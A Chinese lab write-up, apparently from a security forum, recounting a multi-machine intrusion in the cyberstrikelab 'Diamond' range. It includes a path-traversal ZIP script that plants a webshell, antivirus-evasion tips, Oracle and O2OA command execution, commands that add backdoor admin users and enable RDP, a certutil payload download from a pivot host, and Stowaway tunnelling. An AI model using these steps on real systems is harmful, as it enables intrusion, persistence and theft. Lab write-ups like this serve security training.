# cyberstrikelab—Diamond-先知社区

> **来源**: https://xz.aliyun.com/news/16983  
> **文章ID**: 16983

---

# cyberstrikelab—Diamond

# 第一台机器

发现是Jspxcms，前台有注册和登录功能

修改头像的上传功能被删了

## 弱口令

测试后台登录

```
http://192.168.10.45:8080/cmscp/index.do
```

弱口令admin::cslab


参考:

<https://blog.csdn.net/qq_53742230/article/details/126545434>

<https://mp.weixin.qq.com/s/e1QR1hptCCFBPmg18OTM6w>

## 后台文件上传&路径穿越Getshell

在后台管理界面，可以看到文件管理模块有个上传zip包的功能。



Tomcat服务器默认配置会自动解压放置在其webapps/目录下的WAR文件。这意味着如果能够将一个精心构造的WAR文件上传到该目录，并且这个WAR文件包含有路径穿越（Path Traversal）漏洞，那么攻击者就可以在服务器上部署恶意代码并执行。

结合我们之前提到的unzip()方法的行为——根据对象是目录还是文件来创建相应的结构——我们可以尝试构造一个带有路径穿越特性的ZIP包，从而绕过某些安全限制，将恶意文件放置于预期位置。

步骤详解

1. 准备恶意WAR文件:

* 使用哥斯拉生成一个shell.jsp，然后打包成war，这里有360和Defender，使用哥斯拉特战版混淆一下，用XG拟态和弱鸡webshell免杀工具都可以过。
* 创建一个包含恶意JSP代码的WAR文件（例如shell.war）。确保该WAR文件中包含一个可执行的JSP文件，如shell.jsp。
* 创建一个shell文件夹，里面放shell.jsp

```
jar -cf shell.war shell.jsp
```

1. 编写Python脚本生成带路径穿越的ZIP包:

* 使用Python脚本来生成一个具有路径穿越特性的ZIP包。这样做的目的是让解压过程将文件放置在目标目录之外的位置，比如webapps/目录下。

```
import zipfile
zip = zipfile.ZipFile("test111.zip",'w',zipfile.ZIP_DEFLATED)
with open("shell.war","rb") as f:
    data=f.read();
    zip.writestr("../../../shell.war",data)
    zip.close()
```

* 

1. 上传ZIP包至目标系统:

* 使用系统的文件上传接口上传生成的ZIP包（如malicious.zip）。
* 确保上传路径最终指向服务器上的webapps/目录或其子目录。

1. 触发自动解压:

* Tomcat会自动检测并解压放置在webapps/目录下的WAR文件。由于我们在ZIP包中使用了路径穿越技术，解压后，恶意WAR文件会被放置在期望的位置（例如webapps/test/）。
* 

1. 访问恶意文件:

* 一旦WAR文件被成功解压并部署，攻击者可以通过访问相应的URL来触发恶意代码的执行。



### 查看权限

权限低，上线CS提权



### 查看杀软



有360和Defender，一般来说360开启之后Defender默认是不会起作用，这里使用掩日的通用免杀即可，有Defender就要使用分离免杀了。



## 烂土豆提权



开启3389并创建后门用户



## 远程桌面连接

RDP上来之后第一件事就忘本，先给杀软全干掉



## 第一层内网信息收集

```
172.17.50.33:445 open
172.17.50.33:139 open
172.17.50.33:135 open
172.17.50.33:1158 open
172.17.50.33:1521 open
172.17.50.33:3938 open
172.17.50.33:5520 open
172.17.50.33:5985 open
172.17.50.33:47001 open
172.17.50.33:49670 open
172.17.50.33:49669 open
172.17.50.33:49668 open
172.17.50.33:49667 open
172.17.50.33:49666 open
172.17.50.33:49665 open
172.17.50.33:49664 open
172.17.50.33:49674 open
[+] NetInfo:
[*]172.17.50.33
   [->]WIN-QVNDHCLPR7Q
   [->]172.17.50.33
   [->]10.0.0.65
[*] 172.17.50.33         WORKGROUP\WIN-QVNDHCLPR7Q   Windows Server 2016 Standard 14393
[*] WebTitle:http://172.17.50.33:47001 code:404 len:315    title:Not Found
[*] WebTitle:http://172.17.50.33:5985  code:404 len:315    title:Not Found
```

发现开放有1521端口Oracle数据库，然后C盘下面有一个user文件

```
cslab cslab@123#wi
```

成功连接Oracle

# 第二台机器

查看权限，cslab是DBA权限，然后使用odat直接添加用户好像报错

```
proxychains odat dbmsscheduler -s 172.17.50.33 -p 1521 -d ORCL -U cslab -P cslab@123#wi --sysdba --exec 'net user sss 1qaz@2WSX /add'
```

## Oracle RCE

然后使用mdut连接，初始化功能之后可以执行部分命令，想上线CS，上传文件会卡死，用第一台机器做跳板传上去的文件不全.....



然后直接使用命令开启3389添加用户，还好这个能成功。

```
net user sss 1qaz@2WSX /add
net localgroup administrators sss /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

## Stowaway搭建第一层代理

攻击机

```
windows_admin.exe -l 172.16.233.2:9000 -s 123
```

目标机

```
windows_x64_agent.exe -c 172.16.233.2:9000 -s 123 --reconnect 8
```

## 远程桌面连接

开启忘本模式，干掉Defender



## Stowaway搭建第二层代理

攻击机

```
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
[*] Waiting for response......
[*] Node is listening on 9000
```

目标机

```
windows_x64_agent.exe -c 172.17.50.62:9000 -s 123 --reconnect 8
```

## 第二层内网信息收集

```
10.0.0.65:139 open
10.0.0.56:139 open
10.0.0.65:135 open
10.0.0.56:135 open
10.0.0.56:80 open
10.0.0.65:445 open
10.0.0.56:445 open
10.0.0.65:1158 open
10.0.0.65:3389 open
10.0.0.65:3938 open
10.0.0.65:5520 open
10.0.0.56:5985 open
10.0.0.65:5985 open
10.0.0.56:20010 open
10.0.0.56:20020 open
10.0.0.56:20030 open
10.0.0.56:20050 open
10.0.0.56:20040 open
10.0.0.56:20051 open
10.0.0.65:47001 open
10.0.0.56:47001 open
10.0.0.65:49664 open
10.0.0.56:49664 open
10.0.0.56:49665 open
10.0.0.56:49666 open
10.0.0.65:49665 open
10.0.0.65:49666 open
10.0.0.65:49667 open
10.0.0.56:49667 open
10.0.0.56:49668 open
10.0.0.65:49674 open
10.0.0.65:49670 open
10.0.0.56:49670 open
10.0.0.65:49669 open
10.0.0.56:49669 open
10.0.0.65:49668 open
[+] NetInfo:
[*]10.0.0.65
   [->]WIN-QVNDHCLPR7Q
   [->]172.17.50.33
   [->]10.0.0.65
[*] WebTitle:http://10.0.0.56          code:200 len:282    title:None
[+] NetInfo:
[*]10.0.0.56
   [->]WIN-IIRV8J5O5Q1
   [->]10.0.0.56
   [->]10.5.0.66
[*] 10.0.0.56            WORKGROUP\WIN-IIRV8J5O5Q1   Windows Server 2016 Datacenter 14393
[*] WebTitle:http://10.0.0.65:5985     code:404 len:315    title:Not Found
[*] WebTitle:http://10.0.0.65:47001    code:404 len:315    title:Not Found
[*] WebTitle:http://10.0.0.56:5985     code:404 len:315    title:Not Found
[*] WebTitle:http://10.0.0.56:47001    code:404 len:315    title:Not Found
[*] WebTitle:http://10.0.0.56:20051    code:200 len:938    title:H2 Console
[*] WebTitle:http://10.0.0.56:20030    code:404 len:352    title:Error 404 Not Found
[*] WebTitle:http://10.0.0.56:20020    code:404 len:352    title:Error 404 Not Found
```

# 第三台机器

访问10.0.0.56:80是一个o2OA



10.0.0.56:20051是一个H2database

管理界面


这里选择嵌入式H2数据库

下面的Deiver Class填写一个驱动器

```
//这个就是一个用于查找和访问JNDI数据资源的类，通常与JDBC数据源一起使用，去获取数据库的连接
javax.naming.InitialContext
```

然后下面的url Name填写以下的内容

```
//详细的解释
//首先：jdbc:h2:mem:test1;这一个指令就是一个h2数据库的连接url，然后上面的"javax.naming.InitialContext"驱动器也就是这个类，就通过这个url在java程序中查找和获取这个数据资源，用来访问数据库
//然后下一句FORBID_CREATION=FALSE;这个指令就非常关键，他的意思就是说尝试去连接一个不存在里面的数据库，然后设置为FALSE，那么这个h2里面如果没有这个数据库的话，那么他就会自动的去创建一个新的数据库，如果是TRUE的话，那么没有这个数据库，他就无法创建数据库，就会连接失败
//IGNORE_UNKNOWN_SETTINGS=TRUE这个指令就是说刚刚给出的连接url中包含了一些未知的连接设置的话，H2数据库就会直接忽略这些设置，不会报错，如果是false的话就会报错，导致连接失败
总而言之就是避免链接发生错误，进行成功的连接进去。
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\
```



连接报错

## O2OA 弱口令

还是继续打O2OA

这个框架存在系统默认弱口令，可以使用账号xadmin/o2进行登录，进入他的后台进行敏感操作



## O2OA invoke接口RCE

参考:

<https://mp.weixin.qq.com/s?__biz=MzkxOTYwMDI2OA==&mid=2247484301&idx=1&sn=cc09d0ed73141c9df1190979180a4bb6>

<https://mp.weixin.qq.com/s/Cd-nBHoaH0bUtkLkP3-ZoQ>

试了一下代理配置但是这是个windows的机器，不知道咋反弹shell，选第二种打法，看看接口配置

突然看到有一个cslab，官方留了一个可以执行命令的接口

```
try {
    // 创建BufferedReader对象来读取命令执行的结果
    var inputStreamReader = new java.io.InputStreamReader(
        java.lang.Runtime.getRuntime().exec("whoami").getInputStream()
    );
    var bufReader = new java.io.BufferedReader(inputStreamReader);

    // 用于存储命令输出结果的数组
    var outputLines = [];

    // 循环读取每一行输出，直到没有更多行为止
    var line;
    while ((line = bufReader.readLine()) !== null) {
        outputLines.push(line);
    }

    // 关闭BufferedReader
    bufReader.close();

    // 构建最终的结果对象
    var responseObject = {
        "Result": outputLines
    };

    // 设置响应体为JSON格式
    this.response.setBody(responseObject, "application/json");

} catch (e) {
    // 捕获并处理异常
    var errorResponse = {
        "Error": e.message
    };
    this.response.setBody(errorResponse, "application/json");
}
```

权限比较低，得提权，想办法上线CS，这里还是先上stowaway

去10.0.0.65机器上装一个python，开http

安装python报错可以参考:<https://zhuanlan.zhihu.com/p/664066752>

开始执行命令一直不成功，后面问了DeepSeek要调用cmd执行



```
certutil -urlcache -split -f http://10.0.0.65/1.exe C:\ProgramData\1.exe
```

## Stowaway搭建第三层代理

攻击机

```
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
[*] Waiting for response......
[*] Node is listening on 9000
```

目标机

```
cmd /c C:\ProgramData\1.exe -c 10.0.0.65:9000 -s 123 --reconnect 8
```

## 提权

上传了几个土豆都没提权成功，上线CS

做两次转发上线这里就省略了，因为杀软我前面全部关了就不用做免杀了。



挨个试了一下终于有成功的了......



开启3389并且添加一个后门用户上去。

# 第四台靶机

```
(icmp) Target '10.5.0.23' is alive
(icmp) Target '10.5.0.66' is alive
icmp alive hosts len is: 2
10.5.0.66:135 open
10.5.0.66:80 open
10.5.0.66:445 open
10.5.0.23:445 open
10.5.0.66:139 open
10.5.0.23:139 open
10.5.0.23:135 open
10.5.0.23:8848 open
alive ports len is: 8
start vulscan
NetInfo:
[*]10.5.0.66
   [->]WIN-IIRV8J5O5Q1
   [->]10.0.0.56
   [->]10.5.0.66
[*] 10.5.0.23            WORKGROUP\WIN-5V991SP6TBO   
NetInfo:
[*]10.5.0.23
   [->]WIN-5V991SP6TBO
   [->]10.5.0.23
[*] WebTitle:http://10.5.0.23:8848     code:404 len:431    title:HTTP Status 404 鈥� Not Found
[*] WebTitle:http://10.5.0.66          code:200 len:0      title:None
[+] http://10.5.0.23:8848 poc-yaml-alibaba-nacos
```

## 端口转发

然后又遇到那个奇葩问题了，走三层代理不通，这里使用stowaway做端口转发

```
(node 2) >> forward 8877 10.5.0.23:8848
```

把10.5.0.23的8848端口转发到本地的8877端口


访问成功，发现是nacos2.3.2，使用工具梭哈一下



## nacos\_derby\_rce

Nacos Derby SQL Injection&Nacos Default Auth Disabled感觉可以打nacos\_derby\_rce

然后一顿找都没成功，主要有两个打法一个出网的一个不出网

<https://mp.weixin.qq.com/s/Azw0hecHG6knD0XHySA13Q>

这里用第三台机器做跳板直接用出网的打法

### 不出网打法

exp:<https://github.com/Wileysec/nacos_derby_rce>

参考:<https://mp.weixin.qq.com/s/-fEExW2AbnecuWvMC4fgGg>

### 出网打法

exp:<https://github.com/HACK-THE-WORLD/nacos-poc>

参考:<https://mp.weixin.qq.com/s/NRWTHqLtzlkCZdw0OuA6KQ>

POC是一个python项目，依赖requests和flask，请先使用requiments.txt安装依赖 1.配置config.py中的ip和端口，执行service.py，POC攻击需要启动一个jar包下载的地方，jar包里可以放任意代码，都可执行，我这里放了一个接收参数执行java命令的 2.执行exploit.py，输入地址和命令即可执行。

这里主要就是离线装依赖麻烦，慢慢装吧，哈哈哈



安装好直接就起service.py，运行exp执行命令，我执行完之后等了快15分钟弹回的信息，当时差点就放弃睡觉去了......



想直接查看flag文件没成功，直接开3389加后门用户

```
net user sss 1qaz@2WSX /add
net localgroup administrators sss /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```




